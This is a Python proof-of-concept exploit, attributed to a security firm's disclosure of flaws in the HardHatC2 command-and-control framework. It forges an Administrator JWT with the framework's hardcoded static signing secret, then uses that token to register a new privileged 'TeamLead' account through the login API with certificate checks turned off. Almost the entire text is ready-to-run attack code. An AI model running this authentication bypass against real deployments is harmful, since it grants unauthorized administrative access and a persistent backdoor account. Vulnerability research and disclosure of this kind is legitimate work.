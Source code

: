 ##
## static jwt secret
## https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7
## @author Siam Thanat Hack Co., Ltd. (STH)
##

import jwt
import datetime
import uuid
import requests

rhost = 'hardhatc2.local:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)

##
##
